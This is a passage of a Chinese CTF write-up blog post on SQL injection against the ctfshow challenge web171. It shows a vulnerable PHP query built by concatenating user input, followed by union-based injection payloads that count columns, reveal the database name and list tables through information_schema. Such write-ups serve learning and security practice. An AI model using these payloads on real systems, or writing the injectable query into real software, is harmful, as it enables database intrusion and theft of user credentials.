 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:   从0开始学web之sql注入    # 标题 
subtitle:    #副标题
date:  2021-01-22  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - CTF

---
```


# 一、无过滤注入

## web171~union联合注入

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

直接开始

```
1'--+
```

成功会先 id为1的用户密码。

```
1' order by 3--+
```

1,2,3处都有回显

```
-1' union select 1,2,3--+ 
```

爆出库名 ctfshow_web

```
-1' union select 1,2,database()--+
```

爆出表名 ctfshow_user

```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'--+ 
```

爆出列名  id,username,password
